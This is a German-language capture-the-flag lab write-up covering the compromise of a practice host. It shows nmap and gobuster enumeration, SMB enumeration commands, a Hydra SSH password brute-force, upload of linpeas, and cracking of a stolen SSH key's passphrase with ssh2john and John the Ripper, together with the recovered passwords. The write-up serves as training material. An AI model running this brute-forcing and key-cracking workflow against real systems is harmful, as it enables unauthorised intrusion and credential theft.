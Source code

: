 # ZIEL IP: 10.10.2.137

# Scanning
## NMAP 

22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)

80/tcp   open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).

139/tcp  open  netbios-ssn Samba smbd 4.6.2

445/tcp  open  netbios-ssn Samba smbd 4.6.2

8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS

8080/tcp open  http        Apache Tomcat 9.0.7
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.7

MAC Address: 02:2E:C0:97:36:1B (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.41 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 4.6.2
445/tcp  open  netbios-ssn Samba smbd 4.6.2
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8080/tcp open  http        Apache Tomcat 9.0.7


# Enumeration 

## gobuster 

Findings:
	/development

# Weiteres Vorgehen?
Kontrolle des /development Verzeichniss 
- Beinhaltet 2 txt datein 
- Info das es User -k und user -J gibt
- struts Version  2.5.12 (Open-Source-Framework für die Entwicklung von Java-Webanwendungen)
- Anscheinend hat J ein schwaches Passwort

Kontrolle des SMB Shares 
- Enumeration des SMB shares
	- Herausfinden vorhandener ordner via `smbclient -L //10.10.2.137/ -U '' -N`
		- IPC disk gefunden
	- Enumeration via enum4linux `enum4linux -a 10.10.2.137
		- Resultat User gefunden "kay" und User "jan"

Bruteforcing User Jan SSH?
- via Hydra `hydra -l jan -P /usr/share/wordlist/rockyouötxt 10.10.2.137 ssh`
- ERFOLG SSH Password für jan ist armando

# Privilegien Ausweiten
## Enumeration
via Linpeas
übertragen auf Ziel maschine via SCP

```
scp /desktop/linpeas.sh jan@10.10.118.192:/dev/shm
```

Habe es in shm (Shared Memory) geschoben falls weitere verwendung durch andere User bedarf
- chmod +x nicht vergessen


Findings Private SSH Key from Kay
anlegen als kay_id_rsa (auf attackbox) und zugriff ändern auf 600 (ssh keys müssen so angelegt sein)

Verbinden via des keys 

```
ssh -i kay_id_rsa kay@10.10.118.192
```

-> Ist PW gesichert 
	-> Versuch mit John the Ripper zu knacken 
	- umwandeln via ssh2john 
	-> `python3 ssh2john kay_id_rsa > hash.txt`
	- Knacken via
```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
CREDS GEFUNDEN 
PW für den Key ist `beeswax`